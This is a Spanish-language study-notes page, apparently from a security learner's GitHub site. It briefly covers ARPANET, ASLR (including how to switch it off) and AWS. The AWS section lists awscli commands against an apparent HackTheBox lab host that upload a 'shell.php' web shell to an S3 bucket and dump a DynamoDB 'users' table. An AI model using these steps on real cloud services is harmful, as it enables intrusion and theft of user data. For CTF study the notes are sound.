 ```yaml
---
layout: default
---
```

<h1>./issk.sh 2>/dev/null &;disown</h1>
## Apuntes: Conceptos varios
----------------------------------------------------

## ARPANET

ARPANET fue una red de computadoras creada por encargo del Departamento de Defensa de los Estados Unidos (DOD) 
para utilizarla como medio de comunicación entre las diferentes instituciones académicas y estatales.

## ASLR

Es un tipo de protección  que hace variar las direcciones de la memoria
de un programa en un sistema. Para comprobar el ASLR en el sistema recurrimos a cierta ruta

/proc/sys/kernel/randomize_va_space 

#Si este archivo contiene un dos el ASLR sera dinamico y lo podras comprobar de la siguiente manera
```bash
for i in $(seq 1 1000); do  ldd binary ; done
```
Te iran cambiando las direcciones.
Si lo cambias a un 0 lo vuelves estático

## AWS

Amazon Web Services (AWS) es la plataforma en la nube más adoptada y completa en el 
mundo, que ofrece más de 200 servicios integrales de centros de datos. 

AWScli es una herramienta que sirve para administrar las páginas que 
utilizen este servicio, para identificar una de estas páginas 
tienes que fijarte en que el dominio tengo s3. 

Usaremos una herramienta llamada aws del paquete awscli

Crearemos una cuenta aws con:

```bash
aws configure

#Asi veremos el directorio que esta filtrando todo el contenido de aws

aws --endpoint-url http://s3.bucket.htb s3 ls 

#asi veremos el contenido del directorio

aws --endpoint-url http://s3.bucket.htb s3 ls s3://adserver 

#asi subiremos un archivo a la web

aws --endpoint-url http://s3.bucket.htb s3 cp shell.php s3://adserver/shell.php

#para ver las tablas que tiene

aws dynamodb  list-table --endpoint-url http://s3.bucket.htb

#PARA VER EL CONTENIDO DE LA TABLA 

aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb 
```